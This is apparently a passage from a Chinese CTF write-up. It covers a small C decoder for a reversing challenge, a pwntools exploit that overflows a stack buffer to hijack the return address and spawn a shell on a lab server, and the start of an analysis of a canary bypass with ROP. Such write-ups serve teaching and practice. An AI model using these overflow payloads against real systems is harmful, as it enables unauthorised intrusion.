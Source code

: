 #### lucky_guy

f1在程序中就有，f2在case4,5中生成。

```c
#include <stdio.h>

int main()
{
    char s[20] = "\x69\x63\x75\x67\x60\x6f\x66";
    char v1;
    for (int j = 0; j <= 6; ++j) {
        if (j % 2 ==1)
            v1 = *(s+j) - 2;
        else
            v1 = *(s+j) - 1;    
        *(s+j) = v1;
    }
    printf("%s\n", s);
    return 0;
}
```

## PWN

#### fantasy

首先`checksec`

![fantasy](C:\Users\liu\Desktop\Notes\images\fantasy.png)

然后ida发现，在`vul`函数中读入超限，所以可以直接覆盖返回地址，执行`fantasy`函数获得shell。exp如下：

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")

# io = process("./fantasy")
io = remote("172.21.4.12", 10101)

payload = "a" * 0x38 + p64(0x400735)

io.sendline(payload)
io.interactive()
```

#### My_cannary

此题的解决流程包括：绕过canary+ROP获得shell

这道题直接ida发现`judge`函数无法反编译，所以使用`objdump -d my_cannary > asm.s`命令，直接看的汇编。可以发现整体的逻辑，在main函数中调用welcome函数生成随机数作为canary，而后调用test函数将随机数传入，存储在了`ebp-0x8`处，分配了一个空间备份了一下canary，将此空间的地址存储在ebp-0x10处，然后调用了read函数，这里存在溢出点。test函数的最后调用check函数，检查canary是否损坏。

